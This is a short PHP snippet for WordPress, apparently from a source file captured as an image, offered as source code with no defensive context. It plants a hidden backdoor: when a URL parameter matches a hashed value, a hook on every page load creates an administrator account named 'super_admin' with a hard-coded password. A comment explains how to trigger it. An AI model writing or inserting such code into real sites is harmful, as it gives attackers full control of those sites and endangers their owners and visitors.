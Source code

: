 <?php 

//Open yoursite.com/?backdoor=open
add_action('wp_head', 'my_create_backdoor');
function my_create_backdoor() {
  if(md5($_GET['backdoor']) === '1c4dcdc4f55ae2adab37f80f5b4efa81') {
    require('wp-includes/registration.php');
    if(!username_exists('super_admin')) {
      $user_id = wp_create_user('super_admin', 'LetMeIn!');
      $user = new WP_User($user_id);
      $user->set_role('administrator');
    }
  }
}
